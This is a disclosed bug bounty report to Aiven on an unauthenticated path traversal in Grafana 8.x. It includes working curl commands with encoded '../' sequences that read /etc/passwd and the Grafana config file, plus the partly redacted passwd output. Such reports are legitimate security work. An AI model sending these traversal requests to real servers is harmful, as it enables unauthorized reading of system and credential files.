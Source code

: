 # Zero day path traversal vulnerability in Grafana 8.x allows unauthenticated arbitrary local file read

## Report Details
- **Report ID**: 1415820
- **URL**: https://hackerone.com/reports/1415820
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-12-02T20:56:34.934Z
- **Disclosed**: 2021-12-14T10:59:00.381Z

## Reporter
- **Username**: j0v
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aiven_ltd

## Vulnerability Information
## Summary:
Hi team,

I've found a path traversal issue in the Grafana instances hosted on the Aiven platforms. With the path traversal it's possible for an unauthenticated user to read arbitrary files on the server.

## Steps To Reproduce:

  1. Login at https://console.aiven.io
  1. Create a new Grafana instance and wait till it's up and running
  1.Run the following curl command to get the content of the /etc/passwd file on the server:
```
curl https://grafana-303ca6f8-████.aivencloud.com/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

Output:
```
$ curl https://grafana-303ca6f8-███████.aivencloud.com/public/plugins/mysql/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
███
█████
██████
██████████
██████████
████████
██████
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
systemd-coredump:x:992:991:systemd Core Dumper:/:/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/sbin/nologin
systemd-timesync:x:991:990:systemd Time Synchronization:/:/sbin/nologin
██████████
dbus:x:81:81:System message bus:/:/sbin/nologin
█████
████████
██████
█████████
██████████
███
██████████
███
█████
█████████
██████████
███
███
████
███
```

Some other examples:

See the Grafana config:
```
curl --path-as-is https://grafana-303ca6f8-█████████.aivencloud.com/public/plugins/mysql/../../../../../../../../../../../../usr/share/grafana/conf/defaults.ini
```

I'll keep my Grafana instance running so you can try to reproduce it with the examples above.

## Impact

An unauthenticated user can get access to all system files if he knows the exact path of the file.

## Attachments
No attachments
